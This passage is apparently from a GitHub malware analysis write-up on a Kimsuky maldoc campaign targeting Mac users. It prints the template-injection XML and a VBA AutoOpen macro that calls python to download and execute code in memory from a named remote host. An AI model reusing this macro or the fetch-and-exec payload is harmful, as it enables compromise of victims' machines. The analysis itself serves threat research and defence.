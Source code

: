 # apt-get install kimsuky
## Table of Contents
* [Malware analysis](#Malware-analysis)
  + [Python implant](#MacOSX)
  + [Powershell implant](#Windows)
* [Threat Intelligence](#Intel)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [Yara Rules](#Yara)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h3>Python implant<a name="MacOSX"></a></h3>
<h6>The initial vector is a maldoc which used a template injection for download and execute the next stage.</h6>

```xml
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="http://crphone.mireene.com/plugin/editor/Templates/normal.php?name=web" TargetMode="External"/>
</Relationships>
```
<h6>This executes a second maldoc with a macro. The first block of the VBA code is the declaration for use the functions of the office version on Mac. <br/>Note : Mac OS X 10.8 comes with Python 2.7 pre-installed by Apple.</h6>

```python
#If Mac Then
 #If Win64 Then
  Private Declare PtrSafe Function popen Lib "libc.dylib" (ByVal command As String, ByVal mode As String) As Long
 #Else
  Private Declare Function popen Lib "libc.dylib" (ByVal command As String, ByVal mode As String) As Long
 #End If
#End If
```

<h6>The last block of code is the function for auto-executing the malicious code. This request and execute python code in memory (fileless).</h6>

```python
Sub AutoOpen()
On Error GoTo eHandler
 Application.ActiveWindow.View.Type = wdPrintView
 ActiveDocument.Unprotect "1qaz2wsx#EDC"
 Dim s As Shape
 For Each s In ActiveDocument.Shapes
  s.Fill.Solid
  s.Delete
 Next
 Selection.WholeStory
 Selection.Font.Hidden = False
 Selection.Collapse
 ActiveDocument.Save
#If Mac Then
 cmd = "import urllib2;"
 cmd = cmd + "exec(urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=v1')).read())"
 Result = popen("python -c """ + cmd + """", "r")
#End If
```